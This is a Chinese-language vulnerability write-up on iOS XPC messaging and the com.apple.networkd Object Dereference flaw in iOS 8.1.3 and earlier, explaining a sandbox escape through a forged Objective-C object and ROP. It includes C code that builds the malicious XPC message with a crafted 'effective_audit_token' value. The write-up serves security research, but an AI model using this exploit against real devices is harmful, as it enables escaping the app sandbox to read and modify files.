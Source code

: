 运行上述程序后，在server端那边就可以收到client端的消息了。

我们知道，xpc传输的其实就是一段二进制数据。比如我们传输的xpc_dictionary是这样的：

![null](http://drops.javaweb.org/uploads/images/be8e48d85321ba8158f24cc474b57552f64bf45d.jpg)

实际传输的数据确是这样的（通过lldb，然后`break set --name _xpc_serializer_get_dispatch_mach_msg`就可以看到）：

![p2](http://drops.javaweb.org/uploads/images/7e353a14678ce5249e2cdfec1f7ae6aa30e1cf0f.jpg)

可以看到这些传输的数据都经过序列化转换成二进制data，然后等data传递到系统service的服务端以后，再通过反序列化函数还原回原始的数据。

我们知道正常安装后的app是mobile权限，但是被sandbox限制在了一个狭小的空间里。如果系统服务在接收XPC消息的时候出现了问题，比如Object Dereference漏洞等，就可能让client端控制server端的pc寄存器，从而利用rop执行任意指令。虽然大多数系统服务也是mobile权限，但是大多数系统服务并没有被sandbox，因此就可以拥有读取或修改大多数文件的权限或者是执行一些能够访问kernel的api从而触发panic。

0x02 Com.apple.networkd Object Dereference漏洞分析
=====

Com.apple.networkd 是一个app沙盒内可达的xpc系统服务。这个服务对应的binary是/usr/libexec/networkd。我们可以通过ps看到这个服务的权限是_networkd：

![p3](http://drops.javaweb.org/uploads/images/3b1c8e155d7421140f94a0d9b822d38d9954df28.jpg)

虽然没有root权限，但是也几乎可以做到沙盒外任意文件读写了。在iOS 8.1.3及之前版本，这个XPC系统服务存在Object Dereference漏洞，这个漏洞是由Google Project Zero的IanBeer发现的，但他给的poc只是Mac OS X上的，并且hardcode了很多地址。而本篇文章将以iphone 4s, arm32, 7.1.1为测试机，一步一步讲解如何找到这些hardcode的地址和gadgets，并利用这个漏洞做到app的沙盒逃逸。

问题出在com.apple.networkd这个服务的`char *__fastcall sub_A878(int a1)`这个函数中，对传入的”`effective_audit_token`”这个值没有做类型校验，就直接当成xpc_data这种数据类型进行解析了：

![5](http://drops.javaweb.org/uploads/images/dbbeed5431b78a878a8acfedd0673995e6c38802.jpg)

然而如果我们传过去的值并不是一个xpc_data，networkd也会当这个值是一个xpc_data，并传给`_xpc_data_get_bytes_ptr()`来进行解析：

![null](http://drops.javaweb.org/uploads/images/2d330fac777fd4a8482db9c9fd1e061f761a96f2.jpg)

解析完成后，无论这个对象是否符合service程序的预期，程序都会调用`_dispatch_objc_release()`这个函数来release这个对象。因此，我们就想到了是否可以伪造一个objective-C的对象，同时将这个对象的release()函数给加入到cache里，这样的话，在程序release这个对象的时候，就可以控制pc指针指向我们想要执行的ROP指令了。

是的，这个想法是可行的。首先我们要做的是根据数据传输的协议（通过反编译networkd得到）构造相应的xpc数据：

```
xpc_object_t dict = xpc_dictionary_create(NULL, NULL, 0);

xpc_dictionary_set_uint64(dict, "type", 6);
xpc_dictionary_set_uint64(dict, "connection_id", 1);

xpc_object_t params = xpc_dictionary_create(NULL, NULL, 0);
xpc_object_t conn_list = xpc_array_create(NULL, 0);

xpc_object_t arr_dict = xpc_dictionary_create(NULL, NULL, 0);
xpc_dictionary_set_string(arr_dict, "hostname", "example.com");

xpc_array_append_value(conn_list, arr_dict);
xpc_dictionary_set_value(params, "connection_entry_list", conn_list);

uint32_t uuid[] = {0x0, 0x1fec000};
xpc_dictionary_set_uuid(params, "effective_audit_token", (const unsigned char*)uuid);

xpc_dictionary_set_uint64(params, "start", 0);
xpc_dictionary_set_uint64(params, "duration", 0);

xpc_dictionary_set_value(dict, "parameters", params);

xpc_object_t state = xpc_dictionary_create(NULL, NULL, 0);
xpc_dictionary_set_int64(state, "power_slot", 0);
xpc_dictionary_set_value(dict, "state", state);
```